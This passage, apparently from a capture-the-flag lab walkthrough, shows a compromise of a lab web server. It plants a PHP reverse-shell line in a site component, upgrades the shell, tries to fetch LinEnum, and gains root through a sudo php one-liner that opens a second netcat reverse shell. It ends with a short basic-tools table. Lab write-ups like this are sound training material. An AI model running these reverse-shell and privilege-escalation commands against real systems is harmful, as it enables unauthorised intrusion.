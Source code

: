 ```
nc -lnvp 1234
```

Add at the end of the component the following line to create a reverse shell :

```
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.174 1234 >/tmp/f'); ?>
```

Go to the home page [http://10.129.228.10](http://10.129.228.10/), the page should load forever and you see a new shell appears on you attack machine, you got the reverse shell.

Upgrade the shell with `python3 -c "import pty; pty.spawn('/bin/bash')"`.

```
cat /home/mrb3n/user.txt		# 7002d65b149b0a4d19132a66feed21d8
```

Then download LinEnum on your attack host and run web server with Python :

```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
python -m http.server 8080
```

Download the file on the target host :

```
wget http://10.10.15.174:8080/LinEnum.sh		# didn't work for me
```

Thus I tried to find a misconfiguration manually :

```
sudo -l		# it says that I can run /usr/bin/php with sudo NOPASSWORD
```

Create a new listener on attack host :

```
nc -lnvp 1235
```

The command `php -r` execute php code inline. Run the following line on target host :

```
sudo /usr/bin/php -r "system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.174 1235 >/tmp/f');"
```

Got a reverse shell on attack host.

```
cat /root/root.txt		# f1fba6e9f71efb2630e6e34da6387842
```

## Basic Tools

| **Command**              | **Description**                      |
| ------------------------ | ------------------------------------ |
| **General**              |                                      |
| `sudo openvpn user.ovpn` | Connect to VPN                       |
| `ifconfig`/`ip a`        | Show our IP address                  |
| `netstat -rn`            | Show networks accessible via the VPN |
| `ssh user@10.10.10.10`   | SSH to a remote server               |
| `ftp 10.129.42.253`      | FTP to a remote server               |
| **tmux**                 |                                      |
| `tmux`                   | Start tmux                           |